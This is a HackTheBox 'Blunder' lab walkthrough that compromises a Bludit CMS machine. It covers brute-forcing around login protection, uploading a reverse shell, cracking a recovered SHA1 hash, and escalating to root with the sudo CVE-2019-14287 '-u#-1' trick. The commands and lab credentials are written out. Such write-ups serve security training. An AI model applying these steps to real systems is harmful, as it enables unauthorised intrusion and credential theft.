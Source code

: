 ```yaml
---
title: HackTheBox - Blunder
date: 2021-01-20 17:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Bludit, searchsploit, brute-force, bruteforce protection bypass, chaining exploits, CVE-2019-17240, CVE-2019-16113, cewl, custom wordlist, reverse-shell, linpeas, hashcat, Rule-based Attack, sudo undeflow, CVE-2019-14287, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/Blunder.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Blunder-full-port-scan.txt 10.10.10.191
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

### Apache/2.4.41 (port 80)

![Apache 2.4.41](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80.png)

#### `gobuster`

```bash
$  gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .txt
#...
/0 (Status: 200)
/LICENSE (Status: 200)
/about (Status: 200)
/admin (Status: 301)
/cgi-bin/ (Status: 301)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
#...
```

#### `/todo.txt`

![todo.txt](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80-todo.png)

We identified a potential user: `fergus`

#### `/admin` (BLUDIT)

On `/admin` we can see there is a [Bludit](https://www.bludit.com/) (CMS) login page:

![Bludit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80-admin-bludit.png)

Looking at HTML source code, I found that:

![Bludit version](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/80-bludit-version.png)

I assumed that **Bludit**'s version was `3.9.2`: 

#### searchsploit

There are some exploits against Bludit:

![searchsploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/searchsploit.png)

`multiple/webapps/48701.txt` allows us to obtain a reverse shell but it requires authentification.

`php/webapps/48942.py` can be used to  to bypass brute force protection.

## Foothold

### CeWL - Custom Word List generator

Using a cool tool named `cewl`, we can generate a custom wordlist based on website keywords:

```bash
$ cewl http://10.10.10.191/ > cewl-wordlist.txt
```

![cewl](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/cewl.png)

### 48942.py - Bludit Auth Bruteforce Bypass

I copied `/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt` as `users.txt` and I added `fergus` to this wordlist .

Then I ran `48942.py`: 

```bash
$  python3 48942.py -l http://10.10.10.191/admin/login.php -u users.txt -p cewl-wordlist.txt
```

> The trick part of this bruteforce protection bypass is the HTTP header `X-FORWARDED-FOR` as explained in [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/).

SUCCESS! The password of `fergus` is `RolandDeschain`:

![SUCCESS](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/SUCCESS.png)

### 48701.py - Directory Traversal

`multiple/webapps/48701.txt` comes with a python script that need some parameters:
- target URL
- a valid username
- a valid password
- a malicious PNG image containing PHP code with reverse shell (we can use `msfvenom`)
- an `.htaccess` file with specifics instructions  

![48701.py](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/48701.png)

### Reverse shell

Then we have to visit [http://10.10.10.191/bl-content/tmp/temp/evil.png](http://10.10.10.191/bl-content/tmp/temp/evil.png) and we got a shell:

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/reverse-shell.png)

> I used `msfvenom` to generate `evil.png` in the first place, but finally I replaced it with [tiny PHP/bash reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) because I couldn't upgrade my shell using `msfvenom` solution.

After getting a shell, I executed `linpeas.sh` and I saw a potential password in `/var/www/bludit-3.10.0a/bl-content/databases/users.php`:

![password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/DB_PASS.png)

```bash
$ cat /var/www/bludit-3.10.0a/bl-content/databases/users.php    
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

It is a hexadecimal string of length 40 so it's certainly a hash and not a password!

![SHA1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/SHA1.png)

### `hashcat` rule based attack

Let's try to crack it via `hashcat`:

```bash
$ echo -n "faca404fd5c0a31cf1897b823c695c85cffeb98d" > hash.txt 
$ hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
#...
faca404fd5c0a31cf1897b823c695c85cffeb98d:Password120
#...
```

> We could also use [md5decrypt.net](https://md5decrypt.net/en/Sha1/).

## User (hugo)

We can log in as `hugo` with the password we just found: `Password120`.

```bash
www-data@blunder:/tmp$ su hugo
Password: Password120
hugo@blunder:~$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
hugo@blunder:~$ cat user.txt
4136078049bf0679491413a880cb1b42
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

`sudo`'s version is `1.8.25` is vulnerable to `CVE-2019-14287` that could allow privilege escalation, even though the configuration explicitly disallows this.

The vulnerability affects all Sudo versions prior to the latest released version `1.8.28`.

![sudo version](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/sudo.png)

![google search](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/google.png)

![attack scenario](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blunder/root-hacking.png)

## Privesc to root

```console
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
dc6cb3733fe01dafef1eecfc147f56eb
```

___

## Useful links

- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)
- [CVE-2019-17240 - Bludit bypass a brute-force protection](https://nvd.nist.gov/vuln/detail/CVE-2019-17240)
- [CVE-2019-16113 - Bludit remote code execution](https://nvd.nist.gov/vuln/detail/CVE-2019-16113)
- [Rule-based Attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)
- [CVE-2019-14287 - sudo underflow](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
- [Sudo Flaw Lets Linux Users Run Commands As Root Even When They're Restricted](https://thehackernews.com/2019/10/linux-sudo-run-as-root-flaw.html)